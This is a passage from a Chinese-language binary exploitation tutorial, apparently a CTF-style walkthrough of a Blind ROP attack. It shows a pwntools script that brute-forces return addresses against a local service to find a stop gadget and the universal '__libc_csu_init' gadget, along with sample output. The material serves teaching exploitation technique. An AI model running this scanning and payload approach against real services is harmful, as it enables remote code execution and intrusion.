 由于我们在本地的守护脚本略简陋，在程序挂掉和重新启动之间存在一定的时间差，所以这里 `sleep(0.1)` 做一定的缓冲，如果还是冲突，在 `except` 进行处理，后面的代码也一样。
```
[*] stop address: 0x4005e5
```

#### common gadget
有了 stop gadget，那些原本会导致程序崩溃的地址还是一样会导致崩溃，但那些正常返回的地址则会通过 stop gadget 进入被挂起的状态。下面我们就可以寻找其他可利用的 gadget，由于是 64 位程序，可以考虑使用通用 gadget（有关该内容请参见章节4.7）：
```python
def get_gadgets_addr(buf_size, stop_addr):
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("find address: 0x%x" % addr)
            try:    # check
                payload  = "A"*buf_size
                payload += p64(addr)
                payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)

                p = remote('127.0.0.1', 10001)
                p.recvline()
                p.sendline(payload)
                p.recvline()
                p.close()
                log.info("bad address: 0x%x" % addr)
            except:
                p.close()
                log.info("gadget address: 0x%x" % addr)
                return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```
直接从 stop gadget 的地方开始搜索就可以了。另外，找到一个正常返回的地址之后，需要进行检查，以确定是它确实是通用 gadget。
```
[*] gadget address: 0x40082a
```
有了通用 gadget，就可以得到 `pop rdi; ret` 的地址了，即 gadget address + 9。
